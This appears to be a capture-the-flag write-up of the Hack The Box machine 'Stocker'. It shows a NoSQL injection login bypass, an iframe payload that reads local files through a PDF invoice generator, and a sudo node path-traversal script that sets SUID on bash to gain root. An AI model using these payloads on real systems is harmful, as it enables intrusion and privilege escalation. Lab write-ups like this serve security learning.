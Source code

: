 ```yaml
---
layout: post
author: H4-L0
---
```


![image](/images/Pasted image 20230206212512.png)

[link](https://app.hackthebox.com/machines/Stocker)

# Enumeration

## nmap

```shell
$ nmap -sV -p- stocker
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 14:32 EST
Nmap scan report for stocker (10.10.11.196)
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

only 2 ports are open.
- `22` ssh-service
- `80` nginx web server

## webpage

![image](/images/Pasted image 20230206212902.png)

the website had nothing special for us.

## dir scan and subdomain scan

```shell
$ ffuf -w `fzf-wordlist` -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 52ms]
:: Progress: [100000/100000] :: Job [1/1] :: 940 req/sec :: Duration: [0:01:47] :: Errors: 0 ::
```

the directory scan ended with no meaningful results. then we tried to scan for subdomains and got a hit with `dev`.

after adding the `dev.stocker.htb` to the `/etc/hosts` file we could reach a login page.

![image](/images/Pasted image 20230206213415.png)

wie found a static site generator framework named `hugo` in the source code.

![image](/images/Pasted image 20230206213548.png)

after researching and trying different sql injections we got a hint, that you can build hugo also with an non sql database.

## nosql login bypass

and we bypassed the login with `burp` and this payload.

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

don't forget to change the `Content-Type` to `application/json`

![image](/images/Pasted image 20230206220000.png)

we got a redirection to `/stock` that we follow in our original browser.

![image](/images/Pasted image 20230206220019.png)

request in the original session and copy the URL into the browser.

![image](/images/Pasted image 20230206220052.png)

we are now able to buy stock. 

![image](/images/Pasted image 20230206215935.png)

when we added a few items and submit the order we were presented with a generated `pdf` invoice.

![image](/images/Pasted image 20230206220430.png)

![image](/images/Pasted image 20230206220446.png)

first we checked the request with `burp`

![image](/images/Pasted image 20230206220716.png)

we experimented a bit and found out that the `pdf` is vulnerable to XSS.
so we searched and found a way to read sensible data with this payload.

`<iframe width=1000 height=1000 src=file:///etc/passwd></iframe>`

![image](/images/Pasted image 20230125211938.png)

![image](/images/Pasted image 20230125211915.png)

then we tried to locate the `index.js` file because the server responded with Header `x-Powered-By: Express`. so we tried a few paths and found `index.js` with this one.

```
"<iframe width=1000 height=1000 src=file:///var/www/dev/index.js></iframe>"
```

![image](/images/Pasted image 20230125213815.png)

we found the credentials to a mongo database and tried to get in via SSH.

`dev:IHeardPassphrasesArePrettySecure`

the user `angoose` from the `/etc/passwd` had a login shell, so we tried this user with the password.

and it worked.

![image](/images/Pasted image 20230227223831.png)

in the home directory of `angoose` we found the first flag

```shell
angoose@stocker:/home/angoose# cat user.txt
afa**************************c76
```

# Privilege Escalation

```shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Sorry, try again.
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

`sudo -l` got us the hint, that we can execute all script in `/usr/local/scripts/` end with `.js` as root with this node binary located here: `/usr/bin/node`

we thought that it might be possible to execute all javascript files with a bit of path traversal.

```shell
$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/exploit.js
```

so we first checked if we could add the `suid` bit to the bash binary.

```javascript
const spawn = require('child_process').spawn;
spawn('chmod', ['u+s', '/bin/bash'], {stdio: 'inherit'});
```

we checked the binary and it worked.

```shell
$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

next we run the script again to spawn a shell that preserves privileges to get root.

```javascript
const spawn = require('child_process').spawn;
spawn('/bin/bash', ['-p'], {stdio: 'inherit' });
```

```shell
root@stocker:/home/angoose# cat /root/root.txt
cd6a**************************84
```

and we are root and got the last flag.

[H4] & [L0]
